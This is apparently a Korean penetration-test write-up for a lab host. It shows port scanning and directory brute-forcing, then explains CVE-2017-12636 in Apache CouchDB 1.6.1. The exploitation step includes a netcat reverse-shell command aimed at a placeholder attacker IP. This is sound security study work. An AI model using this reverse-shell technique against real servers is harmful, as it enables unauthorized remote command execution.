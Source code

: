 

---

## 호스트 1 - 모의해킹 수행 내용

### 정보 수집

#### 포트 스캔

nmap

```
└─# nmap -p- -sV -Pn -n -T4 10.0.5.122
[ . . . ]
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/17)
MAC Address: 0E:2F:1D:B0:40:BB (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- 포트 스캔 결과 포트 22, 80, 5984가 열려있는 것을 확인했다. 

#### 웹

- gobuter를 이용해 디렉토리 브루트 포싱도 진행했는데 의미있는 정보는 얻지 못했다.

gobuster

```
└─# gobuster dir -u http://10.0.5.122:80 -w /usr/share/dirb/wordlists/common.txt                                                                     
[ . . . ]

/index.html           (Status: 200) [Size: 10671]              
/server-status        (Status: 403) [Size: 275]
Progress: 4614 / 4615 (99.98%)
```

- `wapplyzer` 결과 및 앞서 수집한 정보를 종합하여 해당 서버는 아파치 서버와 CouchDB httpd 1.6.1 그리고 우분투로 실행중인 것을 확인했다.
- <img src="../../images/2025-08-22-보고서/image-23.png" alt="wapplyzer" style="zoom: 33%;" />



---

### 취약점 분석 및 초기 침투

- 초기 침투를 위해 구글링으로 CouchDB 취약점을 발견했다.
  - https://www.rapid7.com/db/modules/exploit/linux/http/apache_couchdb_cmd_exec/

- `CVE-2017-12636` 취약점 분석

1. 대상: Apache CouchDB 1.7.0 이전 및 2.x 2.1.1 이전 버전
2. `_config` API 등으로 내부 “query_server” 등의 설정값을 조작함. 예: `/_config/query_servers/javascript` 설정을 `nc -c /bin/bash <공격자서버IP> <포트>`로 변경
3. 이후 쿼리를 실행하면 DB가 해당 명령어를 OS 단에서 실행하게 되며 결과적으로 리버스 쉘을 획득 가능함

---